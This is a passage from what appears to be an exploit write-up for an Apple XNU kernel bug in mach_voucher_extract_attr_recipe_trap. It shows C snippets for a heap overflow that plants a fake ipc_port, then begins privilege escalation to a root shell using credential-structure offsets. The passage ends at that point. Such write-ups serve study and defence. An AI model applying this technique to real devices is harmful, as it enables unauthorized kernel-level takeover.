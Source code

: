 Unmapping memory, so it will only copy the memory between ```start``` and ```end```.
```c
	uint64_t base = map_addr;
	uint64_t end = base + roundup_size;

	kr = mach_vm_deallocate(mach_task_self(), end, getpagesize());	// unmap the memory
    uint64_t start = end - cp_size;
```

Overwrite next port, make it point to our fakeport.
```c
	memset(recipe, 0x41, kalloc_size);
	memcpy(recipe + kalloc_size, (uint8_t *)&fakeport, 8);
```

Finally, we can trigger the bug, `vp` is voucher port here.
```c
kr = mach_voucher_extract_attr_recipe_trap(vp, 1, recipe, recipe_size);
```

### Privilege escalation

Now the `mach_port_t` points to our fake `ipc_port` in user space, which is completely controlled by us. We need to spawn our root shell.

Let's take a look at the `port` structure.

```c
struct port {
	// ...
  kauth_cred_t	p_ucred;		/* Process owner's identity. (PL) */ // offset: 0xe8
  // ...
};
```

```c
struct ucred {
	TAILQ_ENTRY(ucred)	cr_link; /* never modify this without KAUTH_CRED_HASH_LOCK */
	u_long	cr_ref;			/* reference count */
	
struct posix_cred {
	/*
	 * The credential hash depends on everything from this point on
	 * (see kauth_cred_get_hashkey)
	 */
	uid_t	cr_uid;			/* effective user id */		// offset: 0x18
	uid_t	cr_ruid;		/* real user id */
	uid_t	cr_svuid;		/* saved user id */
	short	cr_ngroups;		/* number of groups in advisory list */
	gid_t	cr_groups[NGROUPS];	/* advisory group list */
	gid_t	cr_rgid;		/* real group id */
	gid_t	cr_svgid;		/* saved group id */
	uid_t	cr_gmuid;		/* UID for group membership purposes */
	int	cr_flags;		/* flags on credential */
} cr_posix;
	struct label	*cr_label;	/* MAC label */
	/* 
	 * NOTE: If anything else (besides the flags)
	 * added after the label, you must change
	 * kauth_cred_find().
	 */
	struct au_session cr_audit;		/* user auditing data */
};
```
